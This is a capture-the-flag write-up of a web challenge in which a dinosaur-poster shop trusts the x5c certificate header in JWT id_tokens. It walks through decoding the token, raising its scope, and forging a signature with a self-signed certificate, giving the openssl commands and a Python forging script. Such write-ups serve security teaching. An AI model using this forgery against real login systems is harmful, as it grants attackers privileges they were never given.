

## Challenge description
The challenge provides the following description and the link to the web challenge:
```
TrustDinOIDC sells dinosaur posters to anyone who can prove they're logged in. The Flagosaurus print is for admins only.

https://dino2auth.ctf.csaw.io/
```

Artifacts:
- [solve.py](https://raw.githubusercontent.com/ssung099/CTF-Writeups/main/csaw-2026/web/TrustDinOIDC/solve.py): the script used to forge a JWT token.

## Solve explanation
Visiting the provided link, the home page looks like the following:


Immediately, I see that there is a "Flagosaurus" tab which seems to be where the flag is located. However, clicking on this tab did not change anything and the statement "Not an admin account" remained on the page.

Next, I tried logging in. Pressing Login, we are prompted to continue with "PaleoID" or "StrataID".

No matter which one we press, we end up logged in as either `guest via paleoid.example.com` or `guest via strata.example.com`.

It doesn't seem like we can modify our login credentials from through web browser.

Let's take a look at the `POST` request for logging in with PaleoID. I used BurpSuite to analyze the request packets.
```
POST /oauth/callback HTTP/2
Host: dino2auth.ctf.csaw.io
...

id_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsIng1YyI6WyJNSUlDeWpDQ0FiS2dBd0lCQWdJVWJDSFRxYVlsb2orLzk0Ym5SRWhDblRmV1NiY3dEUVlKS29aSWh2Y05BUUVMQlFBd0h6RWRNQnNHQTFVRUF3d1VjM1J5WVhSaGFXUXVaWGhoYlhCc1pTNWpiMjB3SGhjTk1qWXdPVEl3TVRjd09URXpXaGNOTWpjd09USXdNVGN3T1RFeldqQWZNUjB3R3dZRFZRUUREQlJ6ZEhKaGRHRnBaQzVsZUdGdGNHeGxMbU52YlRDQ0FTSXdEUVlKS29aSWh2Y05BUUVCQlFBRGdnRVBBRENDQVFvQ2dnRUJBS3pUVlkyRlRiKzU4MDVpcElDK0hNVDNUdWNNMW91NmpSQ2RuSnRURi9WeDhnS1Q0S29Ja3lNSERxYm9zN1dEa05CMm8ycncydXh5THBQeWJTZDVKQ0dkcWtMZ2lqR2NsaDRFaVdYSStnWkhxd0c3ZWtwbjBPY3hkMUF2YXZVeS9RNzNkSkZzUTlSbnlUR2pBMjQybHVEbEJOUS9UWFd2K1dlckhuR1BER3JNVHVPS3Awb2dLZDl5L0xWRFdxM08rVVhPdHVVTDBzL0xEVGYvR2V2L01qTFg3L0svYzVHQVJ1Skk3czNsdmZrV0wyem8zcWV4SWlFTUJ6QVdZUGJxN3dTZDVUZ1JHeGJ6WEV1ZGp1NmEvNUdWK3hoTGRpRENVWWcrcnpieHE4V2tVR2MxUVY3dW01VnlBQWNWZ1lIM0hnVXd4a01FOWtGRWcwSkNueXJ4OGEwQ0F3RUFBVEFOQmdrcWhraUc5dzBCQVFzRkFBT0NBUUVBR0JJeC9oeVhxVnNZdXMydGFqWWV2UWhrMEdxTlk5dUFnUDJ1b0xxYkRNNlZZbWc5dDNHbTlxbGV3Y01YbE85QTNXYnVVbG5Jbm8xWWhsUkdzZGlONUQ5SDJWeDRlNTk4Y0JCcnMyR2M3MTVsVVVCRCtkRzErblZnK0JLUjBFU2VTVFpsci8vV0FhZThvUnJJdVdQRHhoOUczVXUrK3AxdFNOSHpsRmNoMFZjWEp0ZlpGUElxZTc4MHg0UC9XUjUyMk1OSG9tdytPUlV3Mmo0RmkrSFpnNUN2VCt6RlRoRWl5TENxaGZDRldFVTdRR0hrSVJGd0pqNUo3VFFmRk5HaXY3RXVXV2lYZk5kczNaN01KSkd6WWVYdGk1ZzJkazh6bW5kRDhYcXFUM1VGblpOdmFEWUd0SkFhOHR4bDF1NTJtU1VWb0xsRU5reWdLcXNtVGZkckVBPT0iXX0.eyJpc3MiOiJzdHJhdGFpZC5leGFtcGxlLmNvbSIsInN1YiI6Imd1ZXN0IiwiYXVkIjoidHJ1c3RkaW5vaWRjLXBvcnRhbCIsInNjb3BlIjoib3BlbmlkIHByb2ZpbGUgZnJlZW9zYXVydXM6cmVkZWVtIiwiZXhwIjoxNzkwMTAxMTAxfQ.WSBj9EyYytNTnVJdxBYkr7Re8foPjcuxOtSmvDHYsiOTq6nGKbY1g0ChmIRv2kYQlpPSmPKybmehSSyzIYFlBlY17D3vxTDqVctY0pwscPC-aqxlP13KOvOiUc-GZNy2jYg-Pw3QGkltAa9yESp4MlQQRs6wREuU1yPYn-cMEwrisOMsQ1Im4EjKOivMiHXgM88Cabg5uWrAqTpn3WiYO6Gurlnd61WnK_FLwB4x0dFJqMo01C6Qe-OI7zTX4HDyPd2jaSs1UAulk1Ot49tuGrR_q5vJjna5kd1-H6g7FcCrOEavJk6IhBcy7I4h9JLqGacQVkLvbW8VSbKaWakciQ&state=%3A3iYBHxQc
```

The request contains this `id_token` value which seems to be used to verify the permissions for the logging-in user. Given the `ey` start of the `id_token` value, it is likely a JWT token. Using a JWT decoder, we can find what the value decodes to:
```
{
  "alg": "RS256",
  "typ": "JWT",
  "x5c": [
    "MIICyjCCAbKgAwIBAgIUbCHTqaYloj+/94bnREhCnTfWSbcwDQYJKoZIhvcNAQELBQAwHzEdMBsGA1UEAwwUc3RyYXRhaWQuZXhhbXBsZS5jb20wHhcNMjYwOTIwMTcwOTEzWhcNMjcwOTIwMTcwOTEzWjAfMR0wGwYDVQQDDBRzdHJhdGFpZC5leGFtcGxlLmNvbTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAKzTVY2FTb+5805ipIC+HMT3TucM1ou6jRCdnJtTF/Vx8gKT4KoIkyMHDqbos7WDkNB2o2rw2uxyLpPybSd5JCGdqkLgijGclh4EiWXI+gZHqwG7ekpn0Ocxd1AvavUy/Q73dJFsQ9RnyTGjA242luDlBNQ/TXWv+WerHnGPDGrMTuOKp0ogKd9y/LVDWq3O+UXOtuUL0s/LDTf/Gev/MjLX7/K/c5GARuJI7s3lvfkWL2zo3qexIiEMBzAWYPbq7wSd5TgRGxbzXEudju6a/5GV+xhLdiDCUYg+rzbxq8WkUGc1QV7um5VyAAcVgYH3HgUwxkME9kFEg0JCnyrx8a0CAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAGBIx/hyXqVsYus2tajYevQhk0GqNY9uAgP2uoLqbDM6VYmg9t3Gm9qlewcMXlO9A3WbuUlnIno1YhlRGsdiN5D9H2Vx4e598cBBrs2Gc715lUUBD+dG1+nVg+BKR0ESeSTZlr//WAae8oRrIuWPDxh9G3Uu++p1tSNHzlFch0VcXJtfZFPIqe780x4P/WR522MNHomw+ORUw2j4Fi+HZg5CvT+zFThEiyLCqhfCFWEU7QGHkIRFwJj5J7TQfFNGiv7EuWWiXfNds3Z7MJJGzYeXti5g2dk8zmndD8XqqT3UFnZNvaDYGtJAa8txl1u52mSUVoLlENkygKqsmTfdrEA=="
  ]
}
{
  "iss": "strataid.example.com",
  "sub": "guest",
  "aud": "trustdinoidc-portal",
  "scope": "openid profile freeosaurus:redeem",
  "exp": 1790101101
}
```

Looking at the decoded JWT token, I noticed the `scope` value seems to identify what artifacts we are allowed to access. Since we are interested in flagosaurus, I changed the payload to the following:
{
  "iss": "strataid.example.com",
  "sub": "guest",
  "aud": "trustdinoidc-portal",
  "scope": "openid profile flagosaurus:redeem",
  "exp": 1790101101
}

Now to embed the modified JWT token, we need to re-encode it. However, we need a private key that matches the certificate embedded in `x5c` parameter in the JWT header.

The `x5c` parameter stands for "X.509 Certificate Chain" which contains base64 encoded certificates used to verify the digital signature of the token. This allows recipients to access the public key and trust path directly inside the token header, avoiding an external lookup to a JSON Web Key Set (JWKS) URL. However, if an application blindly trusts the `x5c` parameter without any further verification, this could allow for a **signature bypass vulnerability**. An attacker could supply a self-signed certificate into the JWT header and sign the token with their own private key. Since the application doesn't actually verify the certificate, the server is tricked into accepting the forged token.

We can exploit this to sign the modified token with our own private key.

First, we can create our own key pair and self-signed cert with the following command:
```
openssl req -x509 -newkey rsa:2048 -keyout attacker.key -out attacker.crt \
  -days 365 -nodes -subj "/CN=strataid.example.com"
```

Then, we convert the cert the format `x5c` expects:
```
openssl x509 -in attacker.crt -outform DER | base64 -w 0 > attacker_x5c.b64
```

We can now import these keys into a python script and use our `x5c` value in the JWT header and encode the modified payload. Running this script, we can generate the forged token.
```python
with open("attacker.key") as f:
    priv_key = f.read()

with open("attacker_x5c.b64") as f:
    x5c_val = f.read().strip()

header = {
    "alg": "RS256",
    "typ": "JWT",
    "x5c": [x5c_val]
}

payload = {
    "iss": "strataid.example.com",
    "sub": "guest",
    "aud": "trustdinoidc-portal",
    "scope": "openid profile flagosaurus:redeem",
    "exp": 1790101101
}

token = jwt.encode(payload, priv_key, algorithm="RS256", headers=header)
print(token)
```

With the forged token, we can intercept the `POST` request from the website using BurpSuite and modify the `id_token` value in the request body. Forwarding the rest of the request, we end up signed in again but this time with the flag available to us.
